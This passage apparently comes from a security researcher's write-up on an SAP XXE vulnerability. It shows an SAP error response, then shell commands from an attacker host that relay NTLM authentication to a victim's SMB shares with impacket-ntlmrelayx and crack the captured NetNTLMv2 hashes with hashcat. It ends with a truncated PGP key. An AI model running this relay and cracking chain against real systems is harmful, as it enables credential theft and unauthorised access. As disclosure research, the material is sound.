 ```
<error>
    <error_code>RWS 000079</error_code>
    <message>Enter a valid input (RWS 000079)</message>
</error>
```
2. Performing NTLM relay against remote systems and capturing SAP hashes:
```
root@attackerwebsite.com:~/SAP/XXE# screen -S relay
root@attackerwebsite.com:~/SAP/XXE# nohup impacket-ntlmrelayx -ts -smb2support --no-http-server \
--no-wcf-server -ip 10.8.8.2 --serve-image ~/relay/forcedauth -i \
--output-file hashes --lootdir ~/loot -ntlmchallenge 88B2FC3A75AA60D4 \
-t smb://victim.example.com 2>&1>> relay.log &
[1] 3196 
root@attackerwebsite.com:~/SAP/XXE# nc -v localhost 11000
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
wwwroot
# use wwwroot
[detached from 3206.relay]
```
3. Cracking SAP NetNTLMv2 hashes obtained: 
```
root@attackerwebsite.com:~/SAP/XXE# screen -S hashes
root@attackerwebsite.com:~/SAP/XXE# ls ~/loot/hashes_ntlmv2
hashes_ntlmv2
root@attackerwebsite.com:~/SAP/XXE# hashcat -m 5600 -a 0 ~/loot/hashes_ntlmv2 rockyou.txt --force
[detached from 3469.hashes]
```
### PGP
```
-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: FlowCrypt Email Encryption 8.0.2
Comment: Seamlessly send and receive encrypted email

xsFNBF00iMwBEADdQfKM4erUH4uaKGrzTjacrwNDPGmt9TfLrDub090S7AKA
KngGCdqIk4uW/KEqglUSEYluvt2QCS9IRiUY7km09+3676VnMO6UflU2GPc9
5kO8yL2FPScc4hfx8sKPugjztoGD9IUGYKgqS71WR0dVax4mim7FKoXnW3tc
/BAlgPFVU1A3FpDlodUkNpXuxPMw9fT8VEgDRdtL29Zd3CEFQu67tdt6qG03
OO45/bcaQP2N3w4MW7da6z1gAU2IF2WCvpM9w78YdV+KyPgCpAyYLcFxWMQE
JyXwehMA484RNBEUKco2mpW/k10LilHtqAReN7R7z87srzWO3/orSGnV1BBH
iTyRXQfTjKn/2d42y1mlmizToBr8XXGsAFJcR6+efqkFZDNvpOCSN/6TLxuy
MRQHabZNAFyZIZsU2G0xZ0zZF/SWdXObTh2pdmKDgvaqSIVDUyjkdT5khEY2
G6AiZ6IxQWho03Op7wC9r4PglvO1AWvQ8F/schx9WpyVBek7FBV3SIhUmhk/
PIq2zTUurXdhEteAg28+2SHryZNnauNg6IIjKrAi/GEUazoYb8Up8tBsou2T
m5dq0mlTMMM3Y4kTzHDPKF0IvSFrox3kjR0Gk+nebFTa8NBiu8N589h83cx1
YDJzf3RDfAkX1gErQd5RuAndKHoSsJGGVqwDJQARAQABzSZXZXN0IFNoZXBo
ZXJkIDx3ZXN0QHdlc3Rsc2hlcGhlcmQuY29tPsLBdQQQAQgAHwUCXTSIzAYL
CQcIAwIEFQgKAgMWAgECGQECGwMCHgEACgkQvZn4nD/52SdpMhAAvvzWKxl7
eiixygxEBrmHoiPwA+Ac+EIn3fwIqy3c7FmQkYTalcU4CW6l3ZUEzIH8SX0l
TtJ6uGa8ad6EIrrE1/aU9RXTVPpTY+qLQjgfpWJRniZqq04p8v73Sa9oZ6Wu
wx7np81UAAMaHdXbM3iamSC2/IQ/2ab0zSLTyKbGU8WXsRufjxR2m5y34uW5
6wa2Cz3yR88GzezIT7FKKvkSIKe3BVznmXTRtlD+g/jRokfdaDq4PEFqr54Q
CZ9y8bJPsT+z7mESFFH8D3Q5h4Oeyplbxz74opjAUUsp/dvtwq2I0ieUwSAJ
j9ZOaPwlmXOGiraUvMf9mvCr4w/I8tZB8S7Ad0xmRCt7C2A7BYP7Jdv7Fh1K
UMj+EK/JclZTiL11EgEiasfr1KxW97c8JR34MKOGZF/4iA5ujNBNGVzRrNyr
RwNEbMkVDdyhDNrUbchKxIfTRqkpu2fb5og6p6B8VXHn1obxM7K7eHYYDhP6
FJ+DyUSl8UPjnBXlemFUz/solc+0QyhCDpgeElZdhaGeQS3ohbGkubXOeZiT
LSYlUElqOIlbY3fxo5nFVrxG9OFvIMs2zE15n0BmGN8Z+G9ix+wNS8PjMb96
```